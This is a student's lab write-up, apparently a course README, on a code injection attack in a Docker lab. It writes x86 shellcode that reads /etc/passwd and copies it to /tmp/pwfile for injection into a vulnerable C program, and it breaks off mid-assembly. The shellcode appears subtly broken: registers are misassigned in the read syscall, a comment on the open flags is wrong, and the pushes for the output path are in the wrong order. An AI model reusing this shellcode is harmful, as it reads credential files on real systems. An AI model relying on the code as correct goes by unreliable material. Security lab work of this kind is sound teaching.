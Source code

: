 # Lab #1, 22110060, Nguyen Tan Phat, INSE330380E_01FIE
# Q1: Code Injection Lab

In this lab, I will demonstrate the Code Injection approach to exploit a vulnerability in a C program. The objective is to copy the `/etc/passwd` file to `/tmp/pwfile` using a code injection attack. Below is a detailed step-by-step guide to achieve this.

## Step 1: Create the Necessary Files  
We will start by creating two files:
- `shellcode.asm`: Contains the assembly code for our shellcode.
- `redundant.c`: A vulnerable C program that will allow us to inject our shellcode.

## Step 2: Initialization
1. **Open Docker** and navigate to your local folder:
   ```bash
   cd C:\Users\Admin\Seclabs
   ```
2. **Start the Docker image**:
   ```bash
   docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab
   ```
![image](https://github.com/user-attachments/assets/8b22c717-be4f-4e2c-8173-c75a161b22bc)

## Step 3: Write and Compile the ASM Code
We will compile `shellcode.asm` into an executable object file.

1. Create your `shellcode.asm` with the following code:
   ```bash
   nano shellcode.asm
   ```
   ```asm
   global _start
   section .text
   _start:
       ; Assembly code that opens /etc/passwd and writes it to /tmp/pwfile
       xor eax, eax
       mov al, 0x5            ; syscall number for open
       xor ecx, ecx          ; flags = O_RDONLY
       push ecx
       push 0x64777373       ; 'sswd'
       push 0x61702f63       ; 'c/pa'
       push 0x74652f2f       ; '//etc'
       lea ebx, [esp + 1]    ; pointer to the filename
       int 0x80              ; call kernel

       mov ebx, eax          ; store the file descriptor
       mov al, 0x3           ; syscall number for read
       mov edi, esp          ; destination buffer
       mov ecx, ebx          ; file descriptor
       push WORD 0xffff      ; number of bytes to read
       pop edx
       int 0x80              ; call kernel
       mov esi, eax          ; number of bytes read

       push 0x5              ; syscall number for open
       pop eax
       xor ecx, ecx          ; flags = O_CREAT | O_WRONLY | O_TRUNC
       push ecx
       push 0x706d742f       ; '/tmp'
       push 0x656c6966       ; 'file'
   ```